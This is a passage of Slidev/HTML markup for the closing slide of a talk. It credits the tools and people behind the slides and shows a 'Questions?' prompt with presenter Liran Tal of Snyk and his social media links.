  You wonderful people <i>as the "Audience"</i>&nbsp;<mdi-open-in-new class="font-size-3 mb-0.5" /></div>
<div class="grid-item text-right mr-4 col-span-1"><strong>Slides</strong></div>
<div class="grid-item col-span-2">
Slidev<br/>
Vue.js<br/>
Pavel Romanov<br/>
Karl Horky<br/>
Wesley Todd<br/>
Snyk<br/>
</div>

<div class="grid-item col-span-3 text-center mt-180px mb-auto font-size-1.5rem">
  <strong>Questions?</strong>

<div class="mt-16">
  <div class="text-3xl text-yellow-500">
    Liran Tal
  </div>
  <span class="text-md text-yellow-500">
    Developer Advocate at Snyk
  </span>
</div>

<div class="flex flex-row justify-center gap-2 mt-4 align-middle">
  <div class="rounded-full w-1/7 bg-white">
    
  </div>

  <div class="flex-col flex gap-4 justify-center text-center">
    <a href="https://x.com/liran_tal" target="_blank">
      <carbon:logo-twitter class="mr-1" /> @liran_tal
    </a>
    <a href="https://github.com/lirantal" target="_blank">
      <carbon:logo-github class="mr-1" /> @lirantal
    </a>
  </div>
</div>

</div>
</div>